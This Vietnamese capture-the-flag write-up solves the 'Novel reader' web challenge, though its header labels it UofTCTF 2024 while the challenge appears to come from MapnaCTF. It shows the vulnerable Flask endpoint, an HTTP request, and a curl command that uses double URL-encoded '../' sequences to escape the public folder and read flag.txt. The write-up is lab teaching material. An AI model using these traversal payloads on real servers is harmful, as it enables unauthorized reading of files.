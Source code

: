 ```yaml
---
title: "UofTCTF 2024"
layout: single
excerpt: "January 13, 2024 12:00 PM EST to January 14, 2024 11:59 PM EST 💻 "
header:
show_date: true
classes: wide
header:
  teaser: "https://hackmd.io/_uploads/SyWAVZRta.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/SyWAVZRta.png">
</p>

# Table
```
- Web
  Novel reader: 42 point - 144 solves
  Advanced JSON Cutifier: 59 point - 88 solves
```

# Web
## Novel reader - 44 point
### Description
```
We have many fun novels for ya...
http://3.64.250.135:9000
```

Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/mapnactf2024/novel-reader_d78366cb079727a6bd3809219df9bc7835d17fd1.txz)

### Solution

Giao diện web như sau: 
![image](https://hackmd.io/_uploads/ryT0JzCKa.png)

Ứng dụng có 2 chức năng chính là readfile và charge account. Mặc định Mỗi người dùng ban đầu sẽ có 100 Balance và 1 Words Balance.

Trong `list private` của endpoint `/api/list-private-novels` có chứa file 

```
["A-Secret-Tale.txt"]
```

với nội dung có chứa FLAG: 
```
Once a upon time there was a flag. The flag was read like this: MAPNA{test-flag}. FIN.
```

=> Mục tiêu: đọc được file `A-Secret-Tale.txt`

trong `main.py`
```py
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
```

ở đây ta thấy giá trị truyền vào được đưa vào hàm readFile để đọc và trả về dữ liệu cho người dùng nếu có đủ `words_balance`.

```http://3.64.250.135:9000/api/read/$PAYLOAD_INJEC```

Ở đây ta có thể path travesal vượt qua hàm `unqute` của `urllib.parse` bằng cách url encoding payload `%2e` => `%252f`

tôi đã thử đọc file `A-Secret-Tale.txt` bằng cách này với payload:
```
GET /api/read/public%252F%252E%252E%252Fprivate%252FA%252DSecret%252DTale%252Etxt HTTP/1.1
Host: 3.64.250.135:9000
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://3.64.250.135:9000/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=[REDACTED]
Connection: close
```

tuy nhiên, nó không thành công do chúng ta không có đủ `words_balance`. 

![image](https://hackmd.io/_uploads/S1jdMGRta.png)

payload cuối:
```
/api/read/public/%252e%252e/%252e%252e/flag.txt
```

### Script
```py
curl http://3.64.250.135:9000/api/read/public/%252e%252e/%252e%252e/flag.txt
```

result:
```
{"msg":"MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!","success":true}
```


